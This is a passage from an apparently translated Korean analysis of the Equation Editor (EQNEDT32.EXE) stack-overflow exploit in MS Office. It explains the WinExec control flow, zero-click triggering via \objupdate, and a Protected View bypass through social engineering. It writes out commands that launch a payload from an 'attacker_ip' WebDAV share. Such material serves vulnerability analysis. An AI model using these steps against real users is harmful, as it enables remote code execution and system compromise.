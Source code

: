 따라서, 제어된 주소로 점프될 수 있다면 해당 스택은 WinExec의 도움으로 임의의 제어된 명령어를 수행하기에 적절한 구조를 갖게 됩니다(그림 11).

![Fig](/posts169_12.jpg "posts169_12.jpg")

공격자에 의해 오버플로우된 배열의 크기는 36바이트 였다. 게다가 변수 v12와 저장된 ebp를 사용해 여분의 8바이트를 활용 가능했다.<br>
설명된 취약점을 악용하는 몇몇의 OLE들을 삽입함으로써, 순차적인 임의의 명령어들을 수행할 수 있었다.(인터넷에서 임의의 파일을 다운로드하고 실행하는 것)<br>
임의의 코드를 실행하는 가장 쉬운 방법은 공격자가 제어한느 WebDAV 서버로부터 실행가능한 파일을 다운받아 실행시키는 것이다. 그러나, 이것은 WebClident 서비스가 적절하게 운용되고 있을 때 가능한 일이다.<br> 
그럼에도 공격자는 cmd.exe /c start \\attacker_ip\ff 와 같은 명령어를 실행하기 위해 설명한 취약점을 이용하는 것이 가능하다. 이러한 커맨드는 익스플로잇의 부분과 WebClient를 시작하는 트리거로 사용할 수 있다. 
<br>이후에 공격자는 \\attacker_ip\ff\1.exe 명령어를 사용해 WebbDAV서버로부터 실가능한 파일을 시작할 수 있다. 실행가능한 파일의 시작 메커니즘은 \\live.sysinternals.com\tools 와 비슷하다.<br>
익스플로잇 과정을 통해, MS 오피스워드는 적절한 운용과 정보를 표시하게 된다(언급한 프레젠테이션 스트림은 OLE의 위치에 그림을 삽입한다). 이렇게 되면 공격자를 탐지하는 것은 더 어려워진다.<br>
어떠한 유저와도 상호작용하지 않는(더블클릭하지 않는) 문서 내부의 OLE를 업데이트하기 위해서 공격자는 MS오피스의 RTF프로세서의 표준 기능중 하나인 OLE 자동 업데이트를 사용할 수 있다.<br> 
이 목적을 위해, \objupdate 속성이 \object 에 추가되어야 한다. 결과로 해당 취약점은 유저와의 상호작용 없이도 트리거 될 수 있다.<br>
이와 같은 과정을 통해, Embedi의 전문가들은 다음과 같은 익스플로잇을 만들 수 있었다.

* 오피스 365를 포함해 지난 17년간 배포된 모든 버전에서 동작
* 모든 윈도우 버전에서 동작
* 모든 타입의 아키텍쳐와 관련 있음
* MS오피스를 사용하는 유저를 방해하지 않음
* 문서만 열리면 유저와의 상호작용을 필요로 하지 않음

유일한 방해물은 액티브 콘텐츠(OLE/액티브X/매크로)의 실행을 막는 프로텍티브 뷰 모드이다. 이것을 우회하기 위해 공격자는 사회공학적인 기법을 이용한다. 
예를 들어, 그들은 유저에게 파일을 클라우드에 저장하라고 요청할 수 있다(원드라이브, 구글클라우드). 이 경우, 원격의 소스에서 얻어진 파일은 MOTW (Mark of The Web)로 표시되지 않고 파일을 열었을 때 프로텍티브 뷰 모드가 활성화 되지 않는다.
그러나, 해당 컴포넌트들인 최신의 표준 보안 완화기술로 컴파일 된다면 익스플로잇 되지 않을 것이다. 이것은 EQNEDT32.EXE가 쉽게 익스플로잇할 수 있는 엄청난 수의 취약점과 보안 약점을 가진 컴포넌트임을 보여준다.
